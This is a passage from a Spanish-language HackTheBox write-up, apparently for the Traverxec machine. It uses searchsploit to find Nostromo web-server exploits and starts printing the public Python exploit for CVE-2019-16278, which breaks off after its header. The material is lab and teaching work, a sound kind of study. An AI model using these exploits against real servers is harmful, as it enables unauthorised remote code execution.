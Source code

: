 > Nota: -I = ¡Obtén solo los encabezados! Los servidores HTTP cuentan con el comando HEAD que se usa para obtener nada más que el encabezado de un documento.

## Shell como www-data

### Investigación de Vulnerabilidades

Usaré searchsploit para encontrar exploits mientras uso el nombre del servicio HTTP que es nostromo, searchsploit muestra tres vulnerabilidades potenciales de Nostromo:

```shell
❯ searchsploit nostromo
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)                                                                                   | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                                                                                                 | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution                                                                                   | linux/remote/35466.sh
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
❯ searchsploit -m multiple/remote/47837.py
  Exploit: nostromo 1.9.6 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47837
     Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py
File Type: Python script, ASCII text executable

Copied to: /home/wixnic/htb/traverxec/47837.py
```

Hay uno de metasploit, luego un script de Python y un script de shell. El script de shell es un exploit para una versión anterior, así que lo ignoraremos. Comencemos primero con el exploit de Python.

Código de Python:
```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

# Esta línea debe comentarse o eliminarse
#cve2019_16278.py

#!/usr/bin/env python

import sys
import socket

art = """

                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
```